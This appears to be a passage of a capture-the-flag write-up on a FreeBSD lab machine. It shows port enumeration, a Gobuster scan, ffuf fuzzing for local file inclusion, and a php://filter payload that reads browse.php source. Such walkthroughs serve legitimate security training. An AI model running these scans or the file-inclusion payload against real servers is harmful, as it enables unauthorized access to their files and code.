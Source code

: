 ### Port 22

Version: OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)

We usually skip SSH.

## Web

### Port 80

Version - Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)

Accessing the website we are greeted with:

![image.png](image%202.png)

We `.php` file is supplied it just displays it:

![image.png](image%203.png)

## Exploitation

I see here potential LFI vulnerability I am gonna check for it.

**Gobuster Scan**

```bash
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php -b 400,403,404
```

![image.png](image%204.png)

![image.png](image%205.png)

Remote Full Inclusion does not work, because of the options is disabled.

I am gonna check it with `ffuf` first capturing request using `BurpSuite`

![image.png](image%206.png)

 copying it to the current directory and then, using it in a command:

```bash
ffuf -request lfi-request -request-proto http -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -ac
```

![image.png](image%207.png)

![image.png](image%208.png)

Using `filter` wrapper I can see the source code of `browse.php`:

`http://10.10.10.84/browse.php?file=php://filter/read=convert.base64-encode/resource=browse.php`
